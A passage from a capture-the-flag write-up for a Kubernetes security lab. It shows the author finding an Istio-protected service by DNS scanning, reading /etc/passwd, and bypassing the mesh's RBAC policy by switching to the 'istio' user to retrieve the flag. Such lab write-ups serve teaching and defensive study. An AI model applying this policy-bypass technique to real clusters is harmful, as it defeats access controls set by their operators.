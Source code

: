 It looks like there's an `istio` sidecar container running on 10.10.224.159:
```
root@wiz-k8s-lan-party:~# dnscan -subnet 10.100.0.0/16
57323 / 65536 [------------------------------------------------------------------------------------------------------------------------------------------------------------->______________________] 87.47% 982 p/s10.100.224.159 istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
root@wiz-k8s-lan-party:~# dig istio-protected-pod-service.k8s-lan-party.svc.cluster.local

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> istio-protected-pod-service.k8s-lan-party.svc.cluster.local
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14627
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: 05d55b2f90734578 (echoed)
;; QUESTION SECTION:
;istio-protected-pod-service.k8s-lan-party.svc.cluster.local. IN        A

;; ANSWER SECTION:
istio-protected-pod-service.k8s-lan-party.svc.cluster.local. 30 IN A 10.100.224.159

;; Query time: 0 msec
;; SERVER: 10.100.166.132#53(10.100.166.132) (UDP)
;; WHEN: Wed Jul 17 22:39:17 UTC 2024
;; MSG SIZE  rcvd: 175
```

`istio` is a "Service Mesh", which allows different containers to talk to each other using a simple sidecar proxy configuration:
![[Screenshot 2024-07-18 at 9.09.55 AM.png]]

This allows simple rulesets that govern communication between pods to be enforced.s

Curling that pod, we get an error that I'm assuming means the `AuthorizationPolicy` listed above triggered:
```
root@wiz-k8s-lan-party:~# curl -X GET 10.100.224.159
RBAC: access denied
```

I noticed that the policy only restricts GETs and POSTs, so I tried all the other possible HTTP verbs, but no dice. I poked around for a bit, and discovered in the `/etc/passwd` that there is an `istio` user. I switched to that user, and was able to retrieve the flag:
```
root@wiz-k8s-lan-party:~# su istio
$ curl 10.100.224.159 
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```
